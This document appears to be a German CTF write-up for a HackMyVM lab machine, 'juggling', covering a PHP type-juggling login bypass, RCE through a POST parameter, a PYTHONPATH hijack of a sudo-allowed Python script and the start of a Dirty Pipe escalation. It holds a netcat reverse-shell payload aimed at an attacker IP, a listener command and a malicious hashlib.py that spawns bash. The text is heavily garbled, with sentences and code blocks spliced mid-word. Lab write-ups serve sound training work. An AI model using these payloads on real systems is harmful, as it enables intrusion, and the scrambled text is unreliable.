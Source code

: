 ```isierten Umgebungen (z.B. auf eigenen Systemen oder mit ausdrücklicher Genehmigung des Eigentümmarkdown

1.  **Login-Bypass unds3cur3$ sudo -l` zeigte:
        ```
        User www-data may run the following commands on juggling:
            (rehan) SETENV: NOPASSWD: /opt/md5.py
         Session-Erhalt:**
    *   Ein POST-Request an `http://juggling.hmv/index.php` mit `username=QNKCD`, `password=Z`, `val1[]=a`, `val```
    *   `www-data` durfte `/opt/md5.py` als `rehan` ohne Passwort ausführen, und die `SETENV`-Option war aktiv.

2.  **PYTHONPATH Hijacking:**
    *   2[]=A` umging den Login und setzte ein gültiges `PHPSESSID`-Cookie.

2.  **Remote Code Execution (RCE) auf `s3cur3.juggling.hmv`:**
    *Es wurde angenommen, dass `/opt/md5.py` das Modul `hashlib` importiert.
   Ein POST-Request wurde an `http://s3cur3.juggling.hmv/index.php    *   Eine bösartige `hashlib.py`-Datei wurde in `/tmp/test/` auf dem Zielsystem erstellt` (oder `/`) gesendet, unter Mitführung des gültigen `PHPSESSID`-Cookies.
    *:
        ```python
        # /tmp/test/hashlib.py
        import os
        def   Der POST-Body enthielt den Parameter `system=[REVERSE_SHELL_PAYLOAD]`.
        ``` md5(test): # md5 wird von /opt/md5.py aufgerufen
            os.system("/bash
        # Angreifer-Listener:
        # nc -lvnp 4444
        #bin/bash -i") 
            # ... (Rest, um das Originalverhalten zu imitieren)
             Burp Suite Request (POST-Body URL-kodiert):
        # system=nc%20-e%20/bin/bash%20[Angreifer-IP]%204444
        ```
return # ...
        ```
    *   Der Sudo-Befehl wurde mit manipuliertem `PYTHONPATH` ausgeführt:
        ```bash
        sudo -u rehan PYTHONPATH=/tmp/test /opt/md5.    *   Initialer Zugriff als `www-data` wurde erlangt und die Shell stabilisiert.

---

## Phase 4: Privilege Escalation (Kette)

### www-data zu rehan (Sudo/PYTHONPATH Hijpy
        ```
    *   Dies startete eine interaktive Shell als Benutzer `rehan`.
    *acking)

1.  **Sudo-Rechte-Prüfung für `www-data`:**
    *      Die User-Flag `de0a7d9cb0e1ae6190e85549f63a26c1` wurde in `/home/rehan/user.txt` gefunden.

###`www-data@juggling:~/s3cur3$ sudo -l` zeigte:
        ```
        User www-data may run the following commands on juggling:
            (rehan) SETENV: NOP rehan zu root (Dirty Pipe Kernel Exploit)

1.  **Sudo-Rechte-Prüfung für `rehan`:**
    *   `sudo -l` (als `rehan`) erforderte ein Passwort (ASSWD: /opt/md5.py
        ```
    *   `www-data` durfte `/opt/md5.py` als `rehan` ohne Passwort ausführen, und die `SETENV`-Option war aktiv.
```